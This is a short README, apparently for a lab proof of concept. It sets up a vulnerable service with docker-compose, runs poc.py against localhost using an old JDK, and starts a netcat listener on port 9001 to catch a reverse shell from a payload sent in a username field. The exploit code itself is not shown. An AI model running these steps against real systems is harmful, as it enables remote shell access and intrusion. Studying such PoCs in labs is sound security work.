 # Installation

```
docker-compose up -d
```

# Exploit

1. Install the requirements.
```
pip install -r requirements.txt
```

2. Install the JDK jdk1.8.0_20 into the same directory and run the exploit. Download from here[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html] jdk-8u20-linux-x64.tar.gz and extract into the same directory as that of poc.py
```
# JDK must be present in the same directory as that of PoC
tar -xf jdk-8u20-linux-x64.tar.gz
python3 poc.py --userip localhost --webport 8000 --lport 9001
```

3. Start the netcat listner.

```
nc -lnvp 9001
```

4. Send the Payload in the username parameter
